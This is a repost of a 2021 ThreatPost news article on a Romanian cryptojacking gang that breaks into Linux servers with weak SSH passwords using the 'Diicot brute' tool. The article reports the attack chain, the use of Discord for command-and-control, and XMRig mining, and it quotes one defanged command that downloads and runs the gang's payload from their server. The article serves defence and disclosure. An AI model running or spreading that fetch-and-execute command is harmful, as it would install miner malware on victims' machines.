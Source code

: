 # Linux-Focused Cryptojacking Gang Tracked to Romania
### The gang is using a new brute-forcer – “Diicot brute” – to crack passwords on Linux-based machines with weak passwords. 

## Information:
+ Source: ThreatPost
+ Link: [article](https://kasperskycontenthub.com/threatpost-global/?p=167783)
+ Date: July 14, 2021  12:45 pm
+ Author: Lisa Vaas


## Article:
A cryptojacking gang that’s likely based in Romania is using a never-before-seen SSH brute-forcer dubbed “Diicot brute” to crack passwords on Linux-based machines with weak passwords.


The point of the campaign is mainly to deploy Monero mining malware, Bitdefender researchers said in a [report](https://www.bitdefender.com/blog/labs/how-we-tracked-a-threat-group-running-an-active-cryptojacking-campaign) published on Wednesday, though the gang’s kit could let them attempt other types of attacks. Researchers said that they’ve connected the group to at least two distributed-denial-of-service (DDoS) botnets: a variant of the Linux-based DDoS [DemonBot](https://threatpost.com/demonbot-fans-ddos-flames-with-hadoop-enslavement/138597/) botnet called “chernobyl” and a Perl IRC bot.



Why [cryptojacking](https://threatpost.com/hackers-crack-pirated-games-malware/167263/)? Because it’s a sweet short-cut to get to the loot. “As you all know, mining for cryptocurrency is slow and tedious, but it can go faster when using multiple systems,” according to the report. “Owning multiple systems for mining is not cheap, so attackers try the next best thing: To remotely compromise devices and use them for mining instead.”


 


No Shortage of Cruddy Credentials on Linux Machines
---------------------------------------------------


Weak passwords are no surprise: Default usernames and passwords, or weak credentials that can easily be cracked through brute-forcing, are a ubiquitous and unfortunate given in security.


“Hackers going after weak SSH credentials is not uncommon,” the report explained. The tricky part isn’t necessarily brute-forcing credentials but rather “doing it in a way that lets attackers go undetected,” according to researchers.


As analysts explained, the author of the Diicot brute tool claimed that it can filter out honeypots. Maybe so, but “this investigation is proof that it doesn’t, or at least it couldn’t evade ours,” they wrote.


Bitdefender’s honeypot data shows that attacks matching the brute-force tool’s signature started in January. The campaign isn’t pulling the worm move of propagating on compromised systems at this point, they said, at least not yet: “The IP addresses they originate from belong to a relatively small set, which tells us that the threat actors are not yet using compromised systems to propagate the malware (worm behavior).”


Traced to Romania
-----------------


Bitdefender identified the threat group by analyzing its tools and methods, which include heavy obfuscation with Bash scripts that are compiled with a shell script compiler (shc). The threat actors also used Discord to report the information back: An increasingly popular move by attackers.


Malicious abuse of collaboration tools like Slack and Discord to evade security and deliver info-stealers, remote-access trojans (RATs) and other malware has exploded: In April, Cisco’s Talos cybersecurity team said in a report on [collaboration app abuse](https://blog.talosintelligence.com/2021/04/collab-app-abuse.html) that they found [20,000 virus results](https://threatpost.com/attackers-discord-slack-malware/165295/) on just one Discord network search.


Using Discord accomplishes a few things: It relieves attackers of having to host their own command-and-control (C2) server, since webhooks are means to post data on Discord channel programmatically, the report explained. Also, Discord presents gathered data for convenient viewing on a channel.


“Discord is increasingly popular among threat actors because of this functionality, as it involuntarily provides support for malware distribution (use of its CDN), C2 (webhooks) or creating communities centered around buying and selling malware source code and services (e.g. DDoS),” the writeup continued.


That information also lets the threat actor assess how well their tools are doing at infecting machines. As well, the threat actor can sweep up the list of victims for future, potential, post-exploitation hijinxs.


What Triggered the Cryptojacking Tracking?
------------------------------------------


Analysts first started investigating the group in May, when they discovered cryptojacking campaign with the “.93joshua” loader. Surprisingly enough, it was easy to trace the malware to “http://45[.]32[.]112[.]68/.sherifu/.93joshua” in an open directory.


“It turns out that the server hosted other files,” analysts noted. “Although the group hid many of the files, their inclusion in other scripts revealed their presence.” They found that the associated domain, mexalz.us, has hosted malware “at least since February.”


 


Cryptojacking Tools At Your Service
-----------------------------------


From what Bitdefender could suss out, the brute-forcer is distributed on an as-a-service model, given that it uses a centralized API server.


The threat actors who lease the tool supply their API key in their scripts, according to the report. This is where the Romania link comes in, it explained: “Like most other tools in this kit, the brute-force tool has its interface in a mix of Romanian and English. This leads us to believe that its author is part of the same Romanian group.”


The threat group has been active since at least 2020, they said.


Attack Chain
------------


Before they have to cover their tracks by techniques such as hiding behind Discord, cryptojackers first need to find weak credentials, which they accomplish through scanning. The researchers said that the cryptojacking attackers in this instance host several archives on the server, including jack.tar.gz, juanito.tar.gz, scn.tar.gz and skamelot.tar.gz.


The archives contain toolchains for cracking servers with weak SSH credentials, a process that includes these three stages:


The attackers used the tools “ps” and “masscan” for reconnaissance, analysts explained, while “99x / haiduc” (both Outlaw malware) and “brute” are used for credential access and initial access. Besides traditional tools such as “masscan” and “zmap,” the threat actors’ toolkit in this case included the previously unreported SSH brute-forcer – Diicot brute – written in Go.


The campaign, which is still active, includes the use of “skamelot.tar.gz”, which includes the following files:


The infection payload executed in the SSH sessions is “curl -O http://45[.]32[.]112[.]68/.sherifu/.93joshua && chmod 777 .93joshua && ./.93joshua && uname -a”.


Analysts said that the payload file is still online, but the attackers have moved it over to mexalz.us.


The group is also using custom compiled binaries with embedded configurations of a legitimate miner named [XMRig](https://github.com/xmrig/xmrig) – an open-source miner that’s been [adapted for cryptojacking](https://threatpost.com/new-cryptominer-distributes-xmrig-in-aggressive-attacks/132027/) in the past.


‘Brute Force Still Works’
-------------------------


This wouldn’t work if not for lousy passwords that give attackers an easy way to take over machines, the report emphasized.


“People are the simple reason why brute-forcing SSH credentials still works,” researchers wrote. Whatever tools are needed to do that brute forcing, the group itself developed them in this case.


Analysts found that tool – Diicot brute – in the jack.tar.gz and juanito.tar.gz archives. Unlike most of the tools used by Mexalz, it can’t be used by itself: Rather, it’s meant to be rented out on a SaaS model.


Attackers’ Tool Reuse Leads to Easier Tracking
----------------------------------------------


Joseph Carson, chief security scientist and advisory CISO at cloud identity security firm ThycoticCentrify, told Threatpost on Wednesday that, relatively speaking, this campaign isn’t all that sophisticated, in spite of its use of a new brute-force tool. “The techniques being used have been shared too often on the darknet, making it easy for anyone with a computer and an internet connection to start a cryptojacking campaign,” he said via email.


What helps in tracking such gangs is that they have their favorite methods and techniques, Carson continued. “When used often enough, these create a common fingerprint which can be used to track you digitally,” he said. “The ones that are tough to track are the ones who hide behind stolen code or never reuse the same methods and techniques again.”


For each and every new campaign, they do something completely different, Carson elaborated. But such attackers are typically “well-funded and resourced,” he noted. “Most cybercriminals will take the easy path and [that] is to reuse as [many] existing tools and techniques as possible. It will really depend on whether the attacker cares about being discovered or not.”


The more steps an attacker takes to stay hidden “tends to mean they operate within a country which they could be prosecuted if discovered,” Carson said.


***Check out our free*** [***upcoming live and on-demand webinar events***](https://threatpost.com/category/webinars/) ***– unique, dynamic discussions with cybersecurity experts and the Threatpost community.***




#### Tags:
[[malware]] [[gz]] [[cryptojacking]] [[SSH]] [[93joshua]] [[Diicot]] [[Bitdefender]] [[Romania]] [[brute-forcer]] [[DDoS]] [[ThreatPost]]
